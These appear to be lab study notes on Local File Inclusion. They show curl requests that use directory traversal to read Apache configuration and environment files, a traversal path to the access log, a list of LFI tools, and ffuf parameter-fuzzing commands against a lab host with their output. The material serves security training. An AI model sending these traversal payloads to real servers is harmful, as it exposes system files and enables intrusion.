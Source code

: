 curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/apache2.conf

...SNIP...
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
...SNIP...

curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/envvars

...SNIP...
export APACHE_RUN_USER=www-data
export APACHE_RUN_GROUP=www-data
# temporary state file location. This might be changed to /run in Wheezy+1
export APACHE_PID_FILE=/var/run/apache2$SUFFIX/apache2.pid
export APACHE_RUN_DIR=/var/run/apache2$SUFFIX
export APACHE_LOCK_DIR=/var/lock/apache2$SUFFIX
# Only /var/log/apache2 is handled by /etc/logrotate.d/apache2.
export APACHE_LOG_DIR=/var/log/apache2$SUFFIX
...SNIP...

http://<SERVER_IP>:<PORT>/index.php?language=../../../../var/log/apache2/access.log

## LFI Tools

https://github.com/D35m0nd142/LFISuite
https://github.com/OsandaMalith/LFiFreak
https://github.com/mzfr/liffy

--> most of these tools are not maintained and rely on the outdated python2

## LAB

ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://83.136.250.104:45346/index.php?FUZZ=value' -fs 2287

:: Progress: [2/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errorstoken                   [Status: 200, Size: 2309, Words: 571, Lines: 56, Duration: 0ms]
:: Progress: [40/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errorsubmit                  [Status: 200, Size: 2309, Words: 571, Lines: 56, Duration: 0ms]
:: Progress: [41/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errorusername                [Status: 200, Size: 2309, Words: 571, Lines: 56, Duration: 0ms]
...

ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://83.136.250.104:45346/index.php?FUZZ=value' -fs 2309

:: Progress: [40/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Error
view                    [Status: 200, Size: 1935, Words: 515, Lines: 56, Duration: 0ms]
